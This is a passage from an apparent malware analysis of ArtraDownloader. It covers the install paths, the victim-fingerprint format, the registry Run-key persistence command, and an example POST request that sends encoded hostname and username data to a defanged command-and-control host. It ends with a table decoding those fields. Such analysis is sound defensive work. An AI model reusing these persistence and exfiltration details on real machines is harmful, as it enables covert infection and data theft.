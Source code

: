 TEMPLATES
NETHOOD
APPDATA

The ctfmon.exe file is appended to this path, which will be the destination ArtraDownloader copies itself too in the event this file does not already exist.
The malware then attempts to acquire the following folder paths. The first successfully identified folder will be used.

NETHOOD
TEMPLATES
APPDATA

The perfc file is appended to this path, which will be the temporary destination the malware uses when downloading a remote file.
The downloader proceeds to identify the victim’s machine GUID via the HKLM\SOFTWARE\Microsoft\Cryptography\MachineGuid registry key. If this key is successfully queried, a string with the following data is formatted:
[Computer Name]##[Username]@@[Machine GUID]
Otherwise, the following string is generated:
[Computer Name]!@[Username]
This information will be used in subsequent network requests. In order to ensure persistence, the malware modifies the host’s registry to accomplish this. The following two keys are set:
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\JITDfbug - "cmd /c start %Qrp% && exit"
HKCU\Environment\Qrp - [path]\ctfmon.exe
Where [path] is the previously chosen path where ArtraDownloader has copied itself. These two registry key modifications ensure that the malware executes every time the victim machine starts.
At this point in the malware’s execution flow, the previously discussed function that is executed on a 20 second timer will ultimately run. It will begin by making the following example POST request to the remote C2 server:
POST /Engset.php HTTP/1.0
Host: hewle.kielsoservice[.]net
Connection: keep-alive
Content-type: application/x-www-form-urlencoded
Content-length: 148
 
BCDEF=XJO.82GO2QF2BU9&MNOPQ=Xjoepxt!8!Vmujnbuf&GHIJ=Kpti!Hsvo{xfjh&UVWXYZ=XJO.82GO2QF2BU9$$Kpti!Hsvo{xfjhAA214cf8g5.cgc9.51gb.914d.f17ceg:e4cc7&st=0
In this request, the POST data is encoded using the same technique witnessed on the strings. Upon decoding them, we are presented with the following:



POST Variable
Description
Decoded Example


BCDEF
Hostname
WIN-71FN1PE1AT8


MNOPQ
Microsoft Windows Version
Windows 7 Ultimate
